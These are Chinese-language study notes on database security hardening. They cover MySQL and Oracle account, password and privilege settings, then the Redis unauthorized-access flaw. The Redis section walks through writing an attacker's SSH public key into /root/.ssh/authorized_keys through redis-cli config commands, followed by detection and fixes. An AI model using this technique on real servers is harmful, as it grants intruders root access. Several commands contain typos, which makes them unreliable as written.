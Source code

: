 # 数据库安全检查与加固

## 1.mysql数据库安全管理

1. 禁止MySQL已管理元的身份账号权限运行

   ~~~~
   用普通账户运行mysqld
   
   加固方法：
   	MySQL  my.cnf配置文件中配置user=mysql
   ~~~~

2. 设置root用户名口令并修改登录名，且不存在空密码账号

   ~~~markdown
   1.ccess MySQL控制台： mysql -u root -p
   在控制台中执行：
   	set password for 'root'@'localhost' = password('new_password')
   
   为了改进root的安全性，可以改名
       use mysql;
       update user set user="another_username" where user="root";
       flush privileges;
   然后就可以用新用户名访问
   	mysql -u another_username -p 
   	
   2.对于空密码账号
       set password for <user>@'<host>' = password('<clear password>')
       select * from mysql.user where user ="";
   ~~~

3. 配置合适的密码强度，最常使用期限小于90天

   ~~~~markdown
   密码特征，长度，大小写，长度，字符集
   添加配置到全局配置
   	plugin-load=validate_password.so
   	validate_password_length=14
   	validate_password_mixed_case_count=1
   	validate_password_number_count=1
   	validate_password_special_char_count=1
   	validate_passwordpolicy=MEDIUM
   使用期限小于等于90天
   	配置rdbms：
   	set global default_password_lifetime=90
   ~~~~

4. 降低用户的数据库特权，只有管理员有完整的数据库访问权限

   ~~~~markdown
   mysql.user和mysql.db表
   使用revoke语句来删除权限
   MySQL.user中权限：
   	file_priv:表示是否运行用户读取数据库所在主机的本地文件;
   	Process:表示是否运行用户查询所有用户的命令执行信息;
   	Super_priv:表示用户是否有设置全局变量、管理员调试等高级权限；
   	Shutdown_priv：表示用户是否可以关闭数据库；
   	Create_user_priv：表示用户是否可以创建或者删除其他用户;
   	Grant_priv:表示用户是否可以修改其他用户权限；
   ~~~~

5. 禁止或限制远程访问，确保特定主机才有访问特权

   ~~~markdown
   打开主句对数据库的访问：
   	grant all on *.* to 'root'@'% ';
   这是完全开放了对root 的访问，需要对特定主机ip进行限制
       grant all on *.* to 'root'@'localhost';
       grant all on *.* to 'root'@'myip.athome';
       flush privileges;
   有限许可访问：
   	grant select,insert on mydb.* to 'someuser'@'somehost';
   	someuser换成用户名，somehost换成主机
   ~~~

6. 配置MYSQL日志便于审计

   ~~~~markdown
   日志默认会用主机名+.err命名的文件
   配置
   log_error=/mydata/data/mysql.test.com.err 指定错误日志信息，默认在数据库目录下，该位置必须有写的权限
   log_warning ={0|1}#默认开启，服务器运行中的警告日志也在其中
   
   查询日志
   log={ON|OFF} 是否开启查询日志，在MySQL5.6已经废弃
   general_log ={ON|OFF} 启动或关闭查询日志，默认关闭
   general_log_file = /mydata/data/mysql.log 指定查询日志的位置
   log_output = {TABLE|FILE|NONE}指定存放日志位置的位置，文件或者表
   ~~~~

7. 删除测试安装的test数据库

   ~~~markdown
   DROP DATABASE "test"

8. Mysqld启动禁用“--skip-grant-tables”

   ~~~markdown
   skip-grant-tables导致不适用权限系统的情况下启动，不启动grant-tables授权表，忘记管理员密码可以用到
   配置文件中skip-grant-tables设置为FALSE，并且启动参数不包含--skip-grant-tables
   ~~~

9. 数据库位于非系统区

   ~~~markdown
   系统分区：通常用于主句系统、应用程序操作
   非系统分区：用于存储数据
   MySQL数据库的挂在点不应该为：root（'/'）,var,/usr
   
   为MySQL选择非系统分区的新位置
   	停止mysqld:	service mysql stop
   	执行命令复制数据：	cp-rp <datadir> <新位置>
   	启动	service mysql start
   ~~~

## 2.Oracle管理用户安全性

~~~~sql
创建用户 create user test1 identified by test1;
删除用户 drop user test1;
锁定用户 alter user test1 account lock;
	select username,account_status form dba_users where username ="";
修改用户密码
	alert user test1 identified by <新密码>;

~~~~

**概要文件**

~~~~sql
用户限制数据库使用和实例资源的一组指定资源限制的条件，并管理账户状态和口令管理规则。

select username,account_status,profile from dba_users where rownum <= 1;


select profile,resource_name,limit from dba_profiles where rownum <= 1;

profile 配置
~~~~

![image-20220326103244365](E:\学习\picture\1.png)

口令复杂验证

~~~~
password_verify function 指定一个pl/sql函数，便于分配口令之前执行复杂度检查

utlpwdmg.sql脚本提供了模型口令验证函数
Unix和linux： $ORACLE_HOME/rdbms/admin
winows: %oracle_home%\rdbms\admin
~~~~

![image-20220326104519877](E:\学习\picture\image-20220326104519877.png)

取消概要文件的限制

~~~sql
取消密码管理
	alert profile DEFAULT limit unlimited;
	alert profile DEFAULT limit password_reuse_time unlimited;
停止密码校验函数
	alert profile DEFAULT limit password_verify_function null;
~~~

自建概要文件

![image-20220326104909487](E:\学习\picture\image-20220326104909487.png)



## 3.Redis未授权访问漏洞

数据库持久，key-value ，list，set，zset，hash，数据备份

### 漏洞原理（18）

~~~markdown
未开启认证或采用相关策略
	默认绑定在679，没有开启认证
ssh免密码登录
	ssh root@192.168.xxx.xxx
	自身提供的config命令，可进行写操作
	将攻击者的公钥写入目标服务器 /root/.ssh文件夹的authotrized_keys文件中，然后使用对应的私钥登录
~~~

~~~~
ssh-keygen -t rsa 本地生成公私密钥
用户根目录 .ssh
authorized_keys存在远程免密登录的公钥，可记录多台
id_rsa:生成的私钥文件
id_rsa.pub:生成的公钥文件
know_hosts: 已知的主机公钥清单

希望公钥生效必须满足：
1. .ssh目录权限必须为700
2. .ssh/authorized_keys 文件必须为600

scp复制自己的公钥到对方的文件中
	scp -p ~/.ssh/id_rsa.pub root@<remote_ip>:/root/.ssh/authorized_keys
	
手工复制黏贴到远程服务器~/.ssh/authorized_keys


root@kail:		./redis-cli -h 192.xxx.xxx.xxx
192.xxx.xxx.xxx:6379> config get dir
192.xxx.xxx.xxx:6379> config get dir /root/.ssh
192.xxx.xxx.xxx:6379> config set dbfilename authorized_keys
192.xxx.xxx.xxx:6379> keys *
192.xxx.xxx.xxx:6379> get xxx "\n\n\nssh-rsa key_pub root@kail\n\n\n\n"
192.xxx.xxx.xxx:6379> save


ssh ip 登录
~~~~

### redis安全检测

~~~~
1.ps -aux|grep redis 是否root运行
2.netstat -tunlp|grep redis 是否监听本地
3.是否设置相应的密码 
	redis-cli -h 192.xxxx
	keys *
	info
~~~~

### 加固

![image-20220326113204628](E:\学习\picture\image-20220326113204628.png)

![image-20220326113258452](E:\学习\picture\image-20220326113258452.png)



### 漏洞解决方法

~~~~
升级程序，补丁
修改安全配置，停止服务
通过主机防火墙进行访问控制
通过系统边界防火墙进行访问控制
通过修改程序Banner进行欺骗
~~~~

